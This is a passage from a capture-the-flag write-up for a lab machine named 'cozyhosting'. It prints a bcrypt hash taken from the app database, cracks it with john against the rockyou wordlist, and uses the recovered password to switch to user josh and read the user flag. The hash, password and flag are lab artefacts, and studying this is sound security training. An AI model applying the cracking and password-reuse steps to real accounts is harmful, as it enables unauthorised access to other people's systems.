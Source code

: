 After switching to the `cozyhosting` database, we observed two users, `kanderson` and `admin`. We are aware that neither `kanderson` nor `admin` are present in the `ssh` users. However, we have information that `kanderson` is an admin in the `CozyScanner` application. Therefore, we can deduce that `admin` is the user `josh` on the machine, as he is the only user present on the system.

<h5>admin hash</h5>

```
$2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm
```

`john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt`

![JOHN](john.png)

We found the password `manchesterunited`.

```
app@cozyhosting:/app$ su josh
Password: 
josh@cozyhosting:/app$ whoami
josh
josh@cozyhosting:/app$ 
```

We are logged in as `josh` user. Let's get the user flag.

```
josh@cozyhosting:/app$ cd
josh@cozyhosting:~$ ls -la
total 40
drwxr-x--- 4 josh josh 4096 Dec  9 17:56 .
drwxr-xr-x 3 root root 4096 May 18  2023 ..
lrwxrwxrwx 1 root root    9 May 11  2023 .bash_history -> /dev/null
-rw-r--r-- 1 josh josh  220 Jan  6  2022 .bash_logout
-rw-r--r-- 1 josh josh 3771 Jan  6  2022 .bashrc
drwx------ 2 josh josh 4096 May 18  2023 .cache
-rw------- 1 josh josh   20 May 18  2023 .lesshst
-rw-r--r-- 1 josh josh  807 Jan  6  2022 .profile
lrwxrwxrwx 1 root root    9 May 21  2023 .psql_history -> /dev/null
drwx------ 2 josh josh 4096 Dec  9 17:57 .ssh
-rw-r----- 1 root josh   33 Dec  8 19:10 user.txt
-rw-r--r-- 1 josh josh   39 Aug  8 10:19 .vimrc
josh@cozyhosting:~$ cat user.txt 
331a47be32f2481e28c9f174b85aea15
```
